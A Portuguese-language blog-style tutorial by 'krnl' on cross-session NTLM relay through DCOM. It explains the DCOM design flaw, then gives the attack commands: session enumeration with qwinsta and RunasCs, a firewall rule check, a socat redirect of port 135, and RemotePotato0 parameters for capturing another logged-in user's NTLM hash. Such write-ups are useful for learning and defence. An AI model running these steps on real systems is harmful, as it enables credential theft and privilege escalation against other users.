




⠀⠀⠀⢠⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡄⠀⠀⠀
⠀⠀⠀⢸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⠀⠀⠀
⢀⠀⠀⢸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⠀⠀⡀
⠘⡀⠀⢸⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣾⡇⠀⢀⠇
⠀⣧⠀⢸⣿⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⡇⠀⣼⠀
⠀⢸⣆⠀⣿⣷⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣾⣿⠀⣰⡏⠀
⢱⡀⢿⣆⠸⣿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⣿⡏⣰⡿⠀⡌
⠀⢷⡈⢿⣧⣻⣿⣧⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣼⣿⣟⣴⡿⢁⡾⠀
⢀⠈⢷⣌⢿⣿⣿⣿⣷⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣾⣿⣿⣿⡿⣡⡾⠁⡀
⠀⠳⡈⢻⣦⡻⣿⣿⣿⣿⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⣿⣿⣿⣿⣟⣵⡟⢁⠞⠀
⠀⠀⠙⢦⡹⣿⣿⣿⣿⣿⣿⣿⣶⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣶⣿⣿⣿⣿⣿⣿⣿⢏⣴⠋⠀⠀
⠀⠀⠀⡈⠻⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣦⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣴⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⠟⢁⠀⠀⠀
⠀⠀⠀⠈⠢⣌⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣶⣤⣄⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣠⣤⣶⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠟⣡⠔⠁⠀⠀⠀
⠀⠀⠀⠀⢀⠈⠛⢶⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡆⠀⠀⠀⠀⠀⠀⠀⠀⢰⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡷⠛⠁⡀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠉⠒⠦⣬⣛⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠀⠀⠀⠀⠀⠀⠀⠀⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣛⣥⠴⠒⠉⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠠⠤⢤⣌⣉⣛⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣛⣉⣡⡤⠤⠄⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⣀⣀⣀⣀⣉⣭⣭⣽⣿⣿⣿⣿⣿⣿⣿⣿⡏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⣿⣿⣿⣿⣿⣿⣿⣿⣯⣭⣭⣉⣀⣀⣀⣀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⢉⣉⣭⣽⣿⣿⣿⣿⣿⣿⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣿⣿⣿⣿⣿⣿⣭⣉⣉⠉⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠒⠒⠛⠛⠛⠛⢛⣩⣿⣿⣿⣿⣿⣿⣿⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣸⣿⣿⣿⣿⣿⣿⣿⣭⡛⠛⠛⠛⠛⠒⠒⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠤⠴⠾⠟⠛⣫⣿⣿⣿⣿⣿⣿⣿⣆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⣿⣿⣿⣿⣿⣿⣝⠛⠻⠷⠦⠤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⠶⠟⠛⣫⣿⣿⣿⣿⣿⣿⣿⣆⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⣿⣿⣿⣿⣿⣿⣝⠛⠻⠶⢤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡤⠾⠛⣡⣿⣿⣿⣿⣿⣿⣿⡀⠀⠀⠀⠀⠀⠀⢀⣿⣿⣿⣿⣿⣿⢿⣎⠛⠷⢤⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠚⠋⢀⠿⠋⡿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⢿⠙⠿⡄⠙⠓⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⡇⠀⠀⠀⠀⠀⠀⢸⣿⣿⠇⠀⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢻⣿⡇⠀⠀⠀⠀⠀⠀⢸⣿⡟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⡇⠀⠀⠀⠀⠀⠀⢸⣿⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⡇⠀⠀⠀⠀⠀⠀⢸⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢻⡇⠀⠀⠀⠀⠀⠀⢸⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⠀⠀⠀⠀⠀⠀⢸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⠀⠀⠀⠀⠀⠀⢸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⠀⠀⠀⠀⠀⠀⢸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⢸⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⢸⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⢸⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⢸⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⢸⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⢸⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
Cross-Session Relay
É uma técnica de abuso de autenticação em que um atacante provoca uma negociação de autenticação (tipicamente NTLM) originada pela sessão de um usuário já autenticado e redireciona essa autenticação para um endpoint controlado, permitindo captura ou reuso da credencial gerada. Esse fluxo ocorre fora do contexto de sessão original, quebrando barreiras de sessão e habilitando técnicas de relay típicas de NTLM coercion.
Inicialmente
O modelo de segurança do DCOM, que permite que um processo COM seja invocado a partir de outra sessão e execute operações que disparam uma negociação NTLM usando o token da sessão ativa.
O DCOM, por utilizar o modelo MS-RPC sem impor assinatura ou channel binding por padrão e por permitir negociações de autenticação de sessão cruzada, fornece um vetor pelo qual um objeto COM remoto pode induzir a autenticação de um sujeito em outra sessão, habilitando coerção de NTLM sem interação explícita do usuário.
DOCM
O Distributed Component Object Model (DCOM) é uma tecnologia da Microsoft que permite que aplicativos se comuniquem entre processos, computadores e redes. Ele funciona como uma extensão do Component Object Model (COM), permitindo que chamadas de procedimento remoto (RPC) em uma rede criem objetos COM remotos e chamem seus métodos. Em geral, permite que os aplicativos chamem métodos em objetos localizados em sistemas remotos. Foi originalmente desenvolvido para o pacote Microsoft Office para trocar dados entre documentos. O DCOM e o COM são praticamente iguais, com a principal diferença sendo que o COM está disponível apenas localmente e o DCOM pode ser usado remotamente pela rede.
De acordo com os padrões atuais, o DCOM é amplamente utilizado em ambientes corporativos por diversos motivos, incluindo automação, gerenciamento de aplicativos e administração remota. Por exemplo, o aplicativo Microsoft Management Console (MMC) utiliza o DCOM para operar o Visualizador de Eventos ou o Agendador de Tarefas, e a maioria dos produtos da suíte Office também o utiliza quando controlados remotamente. Como mencionado acima, o DCOM está bem estabelecido no espaço de trabalho corporativo e, sem surpresa, desempenha um papel fundamental no software usado por muitas organizações, como Exchange, SQL Server e as ferramentas de gerenciamento do Active Directory. Portanto, o DCOM pode ser encontrado em praticamente todos os cantos de um ambiente corporativo, tentando ajudar administradores e aplicativos com a comunicação entre processos (IPC), tornando-o insubstituível quando uma organização deseja usar automação, administração remota ou gerenciamento de sistemas.
Vetor Essencial
O mecanismo fundamental que viabiliza o cross-session relay reside na forma como o Distributed Component Object Model (DCOM) gerencia autenticação e autorização para chamadas remotas entre processos e sessões distintas dentro do Windows.
Embora o NTLM seja o protocolo de autenticação explorado pelos ataques, o que permite romper a fronteira entre sessões, isto é, originar uma autenticação NTLM a partir do token de um usuário em outra sessão, é exclusivamente o comportamento do DCOM na resolução de identidade e no fallback para protocolos de segurança legados. O vetor não é um “problema do NTLM”; é uma consequência direta do design de segurança do DCOM.
O DCOM cria o vetor fundamental para o cross-session relay porque seu modelo de ativação de objetos remotos permite que chamadas originadas em uma sessão utilizem o token de outra sessão ativa para autenticação NTLM. A ausência de validação de boundary de sessão, combinada com fallback automático para NTLM sem binding de canal, permite que atacantes induzam autenticações involuntárias de usuários autenticados interativamente, habilitando a captura ou relay de credenciais.
Explorando
Para conseguirmos realizar o ataque bem sucedido iremos precisar essencialmente já termos uma conta comprometida e uma conta com a sessão ativa naquele momento.
Para verificar as sessões de usuários ativas podemos executar o seguinte comando:
> qwinsta *
se caso isso não retornar nada, você pode tentar usando o Runas:
> .\RunasCs.exe x x "qwinsta" -l 9

Antes de continuar recomendo verificar as regras de Firewall da máquina
> PS C:\temp> netsh advfirewall firewall show rule name=all

há uma regra permitindo inbound TCP nas portas 8000–9000, mesmo com o firewall no modo BlockInbound. Ou seja: qualquer porta dentro desse range está liberada.
Com a regra de firewall em mente e sabendo que ele aceita portas de 8000-9000 vamos configurar de acordo com isso.
Máquina Host
> sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP: IP VITIMA :8888
O socat atua como um proxy transparente que sequestra o fluxo RPC inicial (MSRPC bind/alter-context) responsável pela negociação COM/DCOM. Ao redirecionar o tráfego do EPM (porta 135) para o serviço malicioso, torna-se possível forçar a vítima a realizar a autenticação NTLM para um endpoint arbitrário.
Máquina Alvo
> .\RemotePotato0.exe -m 2 -s 1 -x SEU IP -p 8888
O RemotePotato0 registra um servidor COM artificial e manipula a fase de negociação RPC/DCOM para provocar uma tentativa de autenticação NTLM originada da sessão privilegiada da vítima. Os parâmetros definem qual interface COM será provocada e qual protocolo de relay NTLM será utilizado. A porta fornecida (-p) corresponde ao listener que receberá o tráfego redirecionado pelo socat, completando o sequestro do fluxo DCOM.
Com isso podemos executar o ataque com sucesso e obtendo o Hash NTLM da sessão que estava ativa naquele momento.
Easy, no ?
by Leonardo Kauan - krnl